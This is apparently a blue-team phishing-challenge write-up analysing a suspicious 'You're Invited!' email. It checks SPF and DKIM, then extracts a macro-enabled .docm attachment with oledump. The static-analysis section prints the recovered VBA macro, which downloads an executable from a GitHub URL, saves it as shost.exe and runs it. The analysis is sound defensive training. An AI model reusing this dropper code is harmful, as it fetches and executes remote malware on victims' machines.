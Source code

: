 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/phishing/challenges/phishing-rerun-c3/"}
---
```


~ [[map-of-contents/blue-team\|blue-team]] 
### Initial Triage
---
The **from** says 'Adam' but the email content says 'Alexia' and lastly there is attached word document with a `.docm` extension, macro enabled.
![Phishing - Rerun C3.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3.png)
## Header Analysis
---
Date Sent: Tue, 14 May 2024 23:31:08 +0000

Subject: You're Invited!

Message-ID:
```C
<SA1PR14MB737384979FDD1178FD956584C1E32@SA1PR14MB7373.namprd14.prod.outlook.com>
```

Return-Path: `abarry@live.com`

Received: from SA1PR14MB7373.namprd14.prod.outlook.com

The `Message-ID` and `Received` header matches with outlook.com and the "namprd14.prod.outlook.com" domain matches with a `whois` lookup as outlook.com is owned by Microsoft:

Receiver: `emily.nguyen@glbllogistics.co`

Sender Display Name: Adam Barry

![Phishing - Rerun C3-1.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-1.png)
### Authentication Checks
---
Performing a `whois` lookup against the found domain on `return-path`:

![Phishing - Rerun C3-2.png|450](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-2.png)
It matches with the received headers as Azure and Outlook is both owned by Microsoft and the sender most likely used Azure's email services and the `return-path` matches with the `Received-SPF` record as well as passing the SPF check:

![Phishing - Rerun C3-3.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-3.png)
We can also confirm this with `dig`:

```C
dig TXT live.com | grep -i "spf"
```

Output shows that it aligns with Microsoft Outlook:

![Phishing - Rerun C3-4.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-4.png)
**Analyzing DKIM header:**

In order to verify and locate the public key, we need the domain highlighted by `d` and the selector highlighted by `s`:

![Phishing - Rerun C3-6.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-6.png)
Then using tools such as `nslookup` to perform DKIM lookup:
```C
nslookup -type=txt selector1._domainkey.live.com
```

Once again, it matches or aligns with Outlook.com: (ideally verify with DKIM lookup tool)
![Phishing - Rerun C3-5.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-5.png)
Then at the `Authentication-Results` shows, both authentication checks passed, no spoofing and content tampering found:

![Phishing - Rerun C3-7.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-7.png)
## Content Examination
---
There seems to be a sender and content email sender mismatch as highlighted:
![Phishing - Rerun C3-8.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-8.png)Viewing the source content, does not show any obsfucation techniques, just pure html:

![Phishing - Rerun C3-9.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-9.png)
### Content Examination
---
The email includes a `.docm` file which is macro enabled typically used by malicious actor to execute code once the document open:

Extracting the `.docm` file using `oledump.py` by first determining it's data stream number:

```C
python3 ../Tools/emldump.py challenge3.eml 
```

Output:
![Phishing - Rerun C3-10.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-10.png)
Then extracting the file in question with the command:

```C
python3 ../Tools/emldump.py challenge3.eml -s 5 -d > AR_Wedding_RSVP.docm
```

Then extracting it's file hash then upload it to VirusTotal to confirm if it's malicious or not:

```C
sha256sum AR_Wedding_RSVP.docm
```

Output: 

```
41c3dd4e9f794d53c212398891931760de469321e4c5d04be719d5485ed8f53e AR_Wedding_RSVP.docm 
```

VirusTotal flagged it as malicious and tagged it as trojan with a score of 44/66:

![Phishing - Rerun C3-12.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-12.png)
#### Static Analysis
---
**Extracting the script that is embedded in the document** by identifying first the data stream number:

```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm 
```

Output:

![Phishing - Rerun C3-13.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-13.png)
Then **revealing the source code:**
```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm -s 3 --vbadecompresscorrupt
```

The most interesting part in this script is this:

```PowerShell
Set http_obj = CreateObject("Microsoft.XMLHTTP")
Set stream_obj = CreateObject("ADODB.Stream")
Set shell_obj = CreateObject("WScript.Shell")

URL = "https://github.com/TCWUS/Pastebin-Uploader.exe"
FileName = "shost.exe"
RUNCMD = "shost.exe"

http_obj.Open "GET", URL, False
http_obj.send

stream_obj.Type = 1
stream_obj.Open
stream_obj.write http_obj.responseBody
stream_obj.savetofile FileName, 2

shell_obj.Run RUNCMD

```

Essentially what the script does is it downloads an executable from github (hxxps[://]github[.]com/TCWUS/Pastebin-Uploader[.]exe) and saves it **shost.exe** then gets executed by spawning a command prompt and calling it's filename.

**Verdict**: The `.docm` macro-enabled attachment alone is suspicious enough add in the fact that there is a slightly mispelled names between the `from` and found in the content but after further investigation by:

- Submitting the `.docm` hash in VirusTotal and getting flagged as malicious.
- The script embedded calls out to github and downloads an executable most likely is malicious.

With these evidence: the verdict is malicious.


53 mins.